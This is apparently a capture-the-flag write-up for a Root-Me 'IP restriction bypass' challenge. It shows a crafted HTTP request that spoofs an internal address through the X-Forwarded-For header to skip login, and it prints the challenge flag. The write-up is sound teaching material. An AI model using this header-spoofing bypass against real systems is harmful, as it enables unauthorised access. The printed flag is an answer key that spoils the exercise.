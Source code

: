 # HTTP - IP restriction bypass

> Dear colleagues, We’re now managing connections to the intranet using private IP addresses, so it’s no longer necessary to login with a username / password when you are already connected to the internal company network. Regards, The network admin&#x20;

<figure><img src="../../.gitbook/assets/1 (98).png" alt=""><figcaption></figcaption></figure>

Let's intercept this request in Burpsuite.

<figure><img src="../../.gitbook/assets/2 (50).png" alt=""><figcaption></figcaption></figure>

Next, we can send this request to the `Repeater`.

## X-Forwarded-For

```
X-Forwarded-For: <client>, <proxy1>, <proxy2>
```

It is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through a proxy server.

We can add this header and set it's value to `192.168.0.1` as the origin should be connected to the internal company network.

## HTTP Request

```
POST /web-serveur/ch68/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
X-Forwarded-For: 192.168.0.1
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch68/
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697290591.1.1.1697292257.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

For the final step we have to send this request to the server.

<figure><img src="../../.gitbook/assets/3 (47).png" alt=""><figcaption></figcaption></figure>

## Flag

```
Ip_$po0Fing
```

